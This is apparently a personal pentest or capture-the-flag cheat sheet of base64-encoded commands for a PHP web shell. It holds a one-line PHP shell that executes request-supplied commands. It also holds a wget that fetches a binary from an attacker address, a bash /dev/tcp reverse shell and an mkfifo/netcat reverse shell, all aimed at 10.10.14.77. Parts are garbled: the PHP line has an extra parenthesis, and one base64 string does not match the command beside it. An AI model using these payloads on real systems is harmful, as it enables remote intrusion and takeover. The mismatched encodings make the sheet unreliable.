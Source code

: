 # some useful commands base64-encoded

## if base64 encoding must be used for php file

`<?php system(base64_decode($_REQUEST['cmd'])));`


ls
bHMK

id
aWQK



whoami
d2hvYW1pCg==


wget http://10.10.14.77/shellbinary -O /tmp/shellbinary
d2dldCBodHRwOi8vMTAuMTAuMTQuNzcvc2hlbGxiaW5hcnkgLU8gL3RtcC9zaGVsbGJpbmFyeQo=


bash -i >& /dev/tcp/10.10.14.77/443 0>&1 c3lzdGVtKCJ3Z2V0IGh0dHA6Ly8xMC4xMC4xNC43Ny9zaGVsbGJpbmFyeSAtTyAvdG1wL3NoZWxs
YmluYXJ5Iik7Cg==


chmod +x /tmp/shellbinary
Y2htb2QgK3ggL3RtcC9zaGVsbGJpbmFyeQo=




rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.10.14.77 443 >/tmp/f
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjEgfCBuYyAx
MC4xMC4xNC43NyA0NDMgPi90bXAvZgo=




tags: #base64 #php 

